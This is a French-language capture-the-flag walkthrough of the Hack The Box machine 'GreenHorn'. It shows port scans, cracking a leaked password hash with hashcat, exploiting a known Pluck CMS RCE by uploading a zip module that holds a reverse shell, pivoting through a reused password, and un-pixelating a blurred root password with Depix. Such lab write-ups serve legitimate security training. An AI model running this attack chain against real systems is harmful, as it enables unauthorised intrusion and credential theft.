   # GreenHorn

	echo "10.10.11.25 greenhorn.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.25 -e tun0 > ports.txt
	sudo nmap -p- -sCV -T4 10.10.11.25 -oN nmap.txt
	feroxbuster --silent -u http://greenhorn.htb
	
Scans classiques.

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    nginx 1.18.0 (Ubuntu)
    3000/tcp open  http    Golang net/http server


Gitea avec inscription sur http://greenhorn.htb:3000

Dépôt présent sur http://greenhorn.htb:3000/explore/repos

http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php => Hash de mot de passe faible

     hashcat -m 1700 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163' rockyou.txt  --force
     
Ce mot de passe permet de se connecter sur la page admin.php du site principal. 

On voit que c'est un Pluck v4.7.18

Il existe une RCE : https://www.exploit-db.com/exploits/51592

En installant un module au format .zip et contenant un reverse-shell, on obtient une connexion en tant que www-data.

## Pivoting

On voit un utilisateur "junior" dans /home et le mot de passe trouvé plus tôt fonctionne pour lui : 

    su - junior
	cat user.txt	 

## Élévation de privilèges

En plus du flag on voit un tutoriel au format PDF. En l'inspectant, on remarque un mot de passe flouté : 

    python -m http.server 8888
    ...
    curl http://10.10.11.25/'Using OpenVAS.pdf' -o root.pdf 
    
On peut retirer le floutage grâce à Depix : https://github.com/spipm/Depix 

    sudo apt-get install poppler-utils graphicsmagick-imagemagick-compat
    pdfimages -j root.pdf root
    mogrify -format png root-000.ppm
    python3 depix.py -p root-000.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o root.png 
    
On a bien le mot de passe de root en clair sur la nouvelle image : 

    ssh root@10.10.11.25
	cat /root/root.txt
